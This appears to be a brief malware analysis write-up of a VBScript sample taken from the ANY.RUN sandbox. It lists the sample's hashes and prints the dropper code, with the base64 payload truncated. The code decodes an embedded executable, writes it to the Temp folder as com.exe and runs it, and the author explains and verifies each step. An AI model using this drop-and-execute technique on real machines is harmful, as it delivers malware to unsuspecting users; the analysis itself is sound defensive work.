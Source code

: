     

## Source of Sample:
Funny looking Vbs file found on AppAnyRun:
* https://app.any.run/tasks/f8665094-5a65-4feb-9ce5-0264ab8eb192/

Base Details:
```
* MD5
    * C4FF2DA534FC1815D2FEB69A151B3049
* SHA1
    * 7DD324AA6D050E69EC1FA317BF98C5485806E4AB
* SHA256
    * C84B88B2FAAD58983F02456757D0E08D99C30CCAF72A2E6B191181926FDB44A2
* Unknown to VT.
```

## Initial Code Extracted:
```python
dim D,E,b,p
Set D=CreateObject("Microsoft.XMLDOM")
Set E=D.createElement("t")
E.DataType="bin.base64"
E.Text="TVqQAAMA.........AA="
Set b=CreateObject("ADODB.Stream")
Set p=CreateObject("Scripting.FileSystemObject").GetSpecialFolder(2)
b.Type=1
b.Open
b.Write E.NodeTypedValue
b.SaveToFile p+"\com.exe",2
CreateObject("WScript.Shell").Run p+"\com.exe"
```
* Note: removed most of base64 to be able to read it clearly

### Lets provide a bit of an explanation about the code:
* Grabs Base64 string writes it to file under the name "com.exe".

* "Com.exe" is located on "C:\Users\XXX\AppData\Local\Temp" which comes from "GetSpecialFolder(2)" 
    * https://www.oreilly.com/library/view/pure-javascript/0672315475/0672315475_ch09lev2sec91.html

* Creates "Wscript.Shell" and uses it to Run "C:\Users\XXX\AppData\Local\Temp\com.exe"
* We can confirm this by removing the last line the file responsioble for the file execution and observe if the file was indeed created:
![image tooltip here](/images/img1.png)
* Further we can confirm that the file suffers no unexpected changes from what we understoood of the code by decoding the base64 asaving it as a file and hash both files which shows its indeed the same file:
![image tooltip here](/images/img2.png)
